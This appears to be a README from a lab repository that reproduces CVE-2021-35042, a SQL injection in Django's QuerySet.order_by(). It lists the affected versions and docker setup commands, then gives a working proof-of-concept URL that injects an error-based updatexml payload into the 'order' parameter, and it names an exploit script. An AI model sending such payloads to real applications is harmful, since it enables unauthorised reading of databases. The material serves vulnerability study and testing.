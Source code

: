 # CVE-2021-35042 Django QuerySet.order_by() SQL注入漏洞

## 漏洞概述
Django 3.1.x before 3.1.13 and 3.2.x before 3.2.5 allows QuerySet.order_by SQL injection if order_by is untrusted input from a client of a web application.

## 影响范围
Django 3.1.x before 3.1.13
Django 3.2.x before 3.2.5

## 环境搭建
```
docker-compose build
docker-compose up -d
```

![1628075671459.png](./img/1628075671459.png)

## 漏洞利用

### POC
`http://127.0.0.1:8000/vuln/?order=vuln_collection.name);select updatexml(1, concat(0x7e,(select @@version)),1)%23`


### Exp

`./exp.sh http://127.0.0.1:8000/vuln/`

![1628076062561.png](./img/1628076062561.png)
